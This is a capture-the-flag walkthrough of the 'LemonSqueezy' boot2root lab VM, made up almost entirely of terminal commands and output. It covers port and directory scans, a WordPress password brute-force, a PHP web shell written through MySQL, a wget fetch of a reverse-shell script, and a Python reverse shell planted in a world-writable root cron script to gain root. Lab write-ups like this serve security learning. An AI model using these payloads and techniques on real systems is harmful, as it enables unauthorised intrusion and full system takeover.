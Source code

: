 This is a beginner boot2root in a similar style to ones I personally enjoy like Mr Robot, Lazysysadmin and MERCY.

This is a VMware machine. DHCP is enabled, add lemonsqueezy to your hosts. It’s easypeasy!


└─$ sudo nmap -sT -A -Pn -n -p- 172.16.227.130
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-16 07:04 CEST
Nmap scan report for 172.16.227.130
Host is up (0.00062s latency).
Not shown: 65534 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 00:0C:29:E2:78:CF (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.62 ms 172.16.227.130

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.80 seconds



└─$ dirb http://172.16.227.130                                                       130 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Fri Apr 16 07:11:20 2021
URL_BASE: http://172.16.227.130/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://172.16.227.130/ ----
+ http://172.16.227.130/index.html (CODE:200|SIZE:10701)                                  
==> DIRECTORY: http://172.16.227.130/javascript/                                          
==> DIRECTORY: http://172.16.227.130/manual/                                              
==> DIRECTORY: http://172.16.227.130/phpmyadmin/                                          
+ http://172.16.227.130/server-status (CODE:403|SIZE:279)                                 
==> DIRECTORY: http://172.16.227.130/wordpress/ 


[+] Performing password attack on Xmlrpc against 2 user/s

[!] Valid Combinations Found:
 | Username: orange, Password: ginger

└─$ wpscan  --url http://lemonsqueezy/wordpress/  -P /usr/share/wordlists/rockyou.txt  

http://lemonsqueezy/wordpress/wp-admin/post.php?post=5&action=edit

n0t1n@w0rdl1st!


orange@squeezy.org.au


SELECT "<?php phpinfo(); ?>"  into outfile "/tmp/info.php"
SELECT "<?php phpinfo(); ?>"  into outfile "/var/www/html/info.php"
SELECT "<?php phpinfo(); ?>"  into outfile "/var/www/html/wordpress/info.php"
SELECT "<?php system($_GET['cmd']); ?>"  into outfile "/var/www/html/wordpress/shell.php"





http://172.16.227.130/wordpress/shell.php?cmd=id


└─$ cat exploit.sh
#!/bin/bash

HOST=172.16.227.130
SHELL=wordpress/shell.php

printf "$ "
while read line
do
    if [[ "$line" == "exit" ]]; then
        break
    fi
   
    curl -s -G --data-urlencode "cmd=$line" http://$HOST/$SHELL
    
    printf "$ "
done < "/proc/${$}/fd/0"


$ cat /var/www/user.txt
TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


./exploit.sh
$ cat /var/www/user.txt
TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH
└─$ echo TXVzaWMgY2FuIGNoYW5nZSB5b3VyIGxpZmUsIH | base64 -d
Music can change your life, base64: invalid input

touch > /var/www/html/wordpress/test

wget http://172.16.227.1:8888/php-reverse-shell.php -O /var/www/html/wordpress/php-reverse-shell.php


└─$ curl http://172.16.227.130/wordpress/php-reverse-shell.php



└─$ nc -nlvp 1234                         
listening on [any] 1234 ...
connect to [172.16.227.1] from (UNKNOWN) [172.16.227.130] 41932
Linux lemonsqueezy 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3 (2017-12-03) x86_64 GNU/Linux
 18:07:20 up  3:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)




$ cat crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/2 *   * * *   root    /etc/logrotate.d/logrotate


$ ls -al /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate



echo '#!/usr/bin/env python' >/etc/logrotate.d/logrotate
echo 'import socket,subprocess,os' >>/etc/logrotate.d/logrotate
echo 'host="172.16.227.1"' >>/etc/logrotate.d/logrotate
echo 'port=4444' >>/etc/logrotate.d/logrotate
echo 's=socket.socket(socket.AF_INET,socket.SOCK_STREAM)' >>/etc/logrotate.d/logrotate
echo 's.connect((host,port))' >>/etc/logrotate.d/logrotate
echo 'os.dup2(s.fileno(),0)' >>/etc/logrotate.d/logrotate
echo 'os.dup2(s.fileno(),1)' >>/etc/logrotate.d/logrotate
echo 'os.dup2(s.fileno(),2)' >>/etc/logrotate.d/logrotate
echo 'p=subprocess.call("/bin/bash")' >>/etc/logrotate.d/logrotate


└─$ nc -nlvp 4444                                                                      1 ⨯
listening on [any] 4444 ...
connect to [172.16.227.1] from (UNKNOWN) [172.16.227.130] 39720
id
uid=0(root) gid=0(root) groups=0(root)
python -c "import pty; pty.spawn('/bin/bash')"
root@lemonsqueezy:~# ls -al /root
ls -al /root
total 44
drwx------  6 root root 4096 Apr 26  2020 .
drwxr-xr-x 23 root root 4096 Apr 13  2020 ..
-rw-------  1 root root 2761 Apr 26  2020 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Apr 13  2020 .cache
drwx------  4 root root 4096 Apr 13  2020 .config
drwxr-xr-x  3 root root 4096 Apr 13  2020 .local
-rw-------  1 root root  699 Apr 13  2020 .mysql_history
drwxr-xr-x  2 root root 4096 Apr 26  2020 .nano
-rw-r--r--  1 root root  148 Aug 18  2015 .profile
-rw-r--r--  1 root root   39 Apr 26  2020 root.txt
root@lemonsqueezy:~# cat /root/root.txt
cat /root/root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
